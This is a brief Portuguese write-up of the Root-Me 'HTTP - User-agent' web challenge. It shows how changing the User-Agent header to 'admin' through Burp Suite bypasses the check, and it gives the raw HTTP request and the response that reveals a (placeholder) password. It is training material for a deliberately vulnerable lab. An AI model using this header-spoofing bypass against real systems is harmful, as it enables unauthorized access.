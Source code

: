 # HTTP - User-agent

Efetuando a troca do user-agent no cabeçalho HTTP, é possível fazer o bypass através da requisição e obter a senha.
A captura e edição da requisição pode ser feita pelo Burp Suit.

## Requisição:

<pre>GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0</pre>

## Resposta:

<pre>HTTP/1.1 200 OK
Server: nginx
Date: Sun, 02 Feb 2020 21:12:47 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 268

<html><body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe><h3>Welcome master!<br/>Password: (password_here)</h3></body></html></pre>
